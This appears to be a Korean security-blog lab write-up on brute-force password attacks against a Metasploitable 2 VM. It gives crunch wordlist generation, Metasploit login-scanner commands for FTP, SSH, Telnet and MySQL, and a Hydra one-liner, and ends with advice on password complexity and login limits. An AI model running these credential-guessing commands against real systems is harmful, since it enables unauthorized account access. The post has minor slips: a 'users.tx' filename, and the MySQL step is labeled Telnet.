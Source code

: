 ```yaml
---
layout: post
toc: true
title: "모의해킹 : Brute force"
tags: [event]
author: accio
---
```


## <span style="color:#33FFFF;">모의해킹 : Brute force</span>
Brute force는 무차별 대입 공격으로 불리며 비밀번호를 탈취하기 위한 가장 고전적이면서 가장 효과적인 방법이다.
<br> 
이론상으로 아무리 복잡한 비밀번호 체계일지라도 충분한 시간만 주이지면 해독이 가능한 공격이다.
<br> 
<br>
<br>

<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;}
.tg td{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  overflow:hidden;padding:10px 5px;word-break:normal;}
.tg th{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  font-weight:normal;overflow:hidden;padding:10px 5px;word-break:normal;}
.tg .tg-baqh{text-align:center;vertical-align:top}
.tg .tg-amwm{font-weight:bold;text-align:center;vertical-align:top}
</style>


<table class="tg">
<thead>
  <tr>
    <th class="tg-amwm">구분</th>
    <th class="tg-amwm">운영체제</th>
    <th class="tg-amwm">IP</th>
    <th class="tg-amwm">비고</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td class="tg-baqh">공격자</td>
    <td class="tg-baqh">Kali linux</td>
    <td class="tg-baqh">172.16.27.140</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
  <tr>
    <td class="tg-baqh">희생자</td>
    <td class="tg-baqh">Metasploitable 2</td>
    <td class="tg-baqh">172.16.27.143</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
</tbody>
</table>
해당 공격을 실습하기 전 필요한 가상환경은 위 표와 같다.
<br>
<br>
<br>

### <span style="color:#66CCFF;">Crunch</span>
<span style="font-size:1em; color:#FF0033;">Crunch</span>도구를 통해 칼리리눅스에서 무차별 대입 공격에 필요한 비밀번호 항목을 생성할 수 있다.
```
# cat /usr/share/crunch/charset.lst
```
<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204799516-817219c6-d54e-4950-adc5-d0769daffd97.png" >
<figcaption>
cat /usr/share/crunch/charset.lst 명령어를 입력한 모습
</figcaption>
</figure>
</div>
위 명령어를 통해 크런치 사용법을 확인할 수 있다. 이 중에서 numeric 플래그를 이용하여 숫자로만 이뤄진 비밀번호를 생성한다.
<br>
<br>


```
# crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o /root/passwords.txt
```
위 명령어는 4자리로 이뤄진 비밀번호를 생성하라는 의미다. 여기서 비밀번호를 생성한 이유는 무차별 대입 공격의 하나인 <span style="font-size:1em; color:#FF0033;">Dictionary 공격</span> 일명 사전 기반 공격을 하기 위함이다. 이렇게 무차별 대입 공격을 하기 위한 사전이 준비되어 있다.
<br>
<br>


```
# cat > /root/user.txt
root
```
추가적으로 위 명령어를 실행하여 관리자 계정으로 사용하는 단어를 작성한다.
<br>
root는 Unix/Linux 기반의 운영체제와 My-sql 서버 등에서 사용하는 관리자 계정이다.
<br> 
<br> 
<br> 

### <span style="color:#66CCFF;">공격 실습</span>
```
# msfconsole
```
공격 실습에 앞서 위 명령어를 통해 메타스플로잇에 접속한다.
<br>
<br>


```
use auxiliary/scanner/ftp/ftp_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 FTP 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/ssh/ssh_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 ssh 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/telnet/telnet_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/mysql/mysql_login
set rhosts 172.16.27.143
set rport 3306
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>

이렇게 메타스플로잇을 이용하여 무차별 대입 공격을 할 수 있다. 하지만 이 경우 시간이 오래 걸릴 수 있기 때문에 <span style="font-size:1em; color:#FF0033;">Hydra</span>를 이용하여 지연 시간을 줄일 수 있다.
<br> 
<br> 
<br>

### <span style="color:#66CCFF;">Hydra</span>
<span style="font-size:1em; color:#FF0033;">Hydra</span>는 모의 침투 운영체제에서 기본으로 제공하는 무차별 대입 공격 도구다.
<br>
```
# hydra -l root -P /root/passwords.txt -f 172.16.27.143 ftp
```
위 명령어를 이용하여 ftp 서비스를 대상으로 공격하며 뒤 서비스를 ssh, telnet으로 변경하면 다른 서비스에 공격할 수 있다.
<br>

이외에도 흔히 정보 수집 도구로만 알려진 Nmap으로도 무차별 대입 공격이 가능하다. Nmap의 NSE 모듈을 사용하여 공격을 수행할 수 있다.
<br>

<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204810812-099b9090-3ffb-48ff-b2da-b995b4c87cae.png" >
<figcaption>
my-sql을 대상으로 무차별 대입 공격
</figcaption>
</figure>
</div>
<br>
<br>
<br>

### <span style="color:#66CCFF;">실습 후기</span>
이론상 가장 효과적인 무차별 대입 공격 실습을 하면서 로그인 시도 횟수 및 효과적인 암호를 위해 특수문자, 대문자, 숫자 등 여러 기호를 넣어야 하는 이유에 대해 다시 생각 해볼 수 있었으며, 서버 또는 DB 구축 시 로그인 실패 횟수를 설정하여 해당 취약점에 대비해야 한다.
<br>
<br>
<br>

## <span style="color:#33FFFF;">Author</span>
<p>
<div>
   <a href="https://accio3014.github.io/" target="_blank">accio</a>
</div>
</p>